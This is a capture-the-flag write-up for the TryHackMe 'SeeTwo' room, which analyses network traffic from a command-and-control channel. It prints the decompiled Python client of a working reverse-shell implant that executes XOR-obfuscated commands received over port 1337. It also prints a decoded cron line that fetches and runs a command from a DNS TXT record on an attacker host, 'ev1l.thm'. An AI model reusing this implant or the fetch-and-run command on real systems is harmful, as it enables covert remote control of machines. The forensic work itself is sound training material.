

# SeeTwo 

https://tryhackme.com/r/room/seetworoom 

**Can you see who is in command and control?**

## Download the task files

evidence,zip 

only one file in a zip file:

### capture.pcap 

It's a pcapng file. 

Open with NetworkMiner for a quick look.



3 host 
1 file 

### the file: base64_client.octet-stream 

``$: file base64_client.octet-stream``

base64_client.octet-stream: ASCII text

``$: cat base64_client.octet-stream |base64 -d >> client.step2``

``$: file client.step2 ``

client.step2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7714ff204a0a7dcd042276bab94a99bad4d276f0, for GNU/Linux 2.6.32, stripped

It's an elf binary. Try to find something inside. 

```
./pyinstxtractor-ng client.step2 
[+] Processing client.step2
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 11922732 bytes
[+] Found 47 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: client.pyc
[+] Found 74 files in PYZ archive
[+] Successfully extracted pyinstaller archive: client.step2
```
Decomply client.pyc

```
uncompyle6 client.pyc 
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.12.6 (main, Sep  7 2024, 14:20:15) [GCC 14.2.0]
# Embedded file name: client.py
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "// REDACTED //".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))

# okay decompiling client.pyc
```

We have a key "// REDACTED //" and the encoding method for the communication on Port 1337 from host 10.0.2.64 

## find encoded communication

Open wireshark and use filter: tcp.port == 1337

Follow the TCP stream. Stream3 and Stream4 use a base64 encryption for png files. All TCP segments has a chunk after the png IEND section.   

We have a separator: ``separator = "AAAAAAAAAA"``

check manually the method: 

base64 + XOR with key (Cyberchef)

``OBA3SEEDQmhHMC4JNSdGUiQGCVBQXlRRRgYmAwIVW08LPxYmBQMOQ2hfYmMHPCoDE2pDWUUACglIQlZ3Rw0QAAABZFVhQlhABzwAe2dWaW4LGzNGQVlXRhQNGwMnChhdeA==``

Good result:

``uid=1000(bella) gid=1000(bella) groups=1000(bella),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)``


OBA3SEEDQmhHMC4JNSdGUiQGCVBQXlRRRgYmAwIVW08LPxYmBQMOQ2hfYmMHPCoDE2pDWUUACglIQlZ3Rw0QAAABZFVhQlhABzwAe2dWaW4LGzNGQVlXRhQNGwMnChhdeA==

uid=1000(bella) gid=1000(bella) groups=1000(bella),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)

**Collect all communication chunks**

``$: tshark -r capture.pcap -Y "tcp.port == 1337" -T fields -e data |xxd -r -p > capture.base64.full``

I used sublime text editor to cut all not relevant part. 

the goal 


We can answer for all questions except the flag. 

## find the flag

We can see a cronjob with base64 encryption, try it

```
$: echo "L2Jpbi9zaCAtYyAic2ggLWMgJChkaWcgZXYxbC50aG0gVFhUICtzaG9ydCBAbnMuVEhNe1//REDACTED//" | base64 -d
/bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.// REDACTED //.thm)"
```


**DONE**


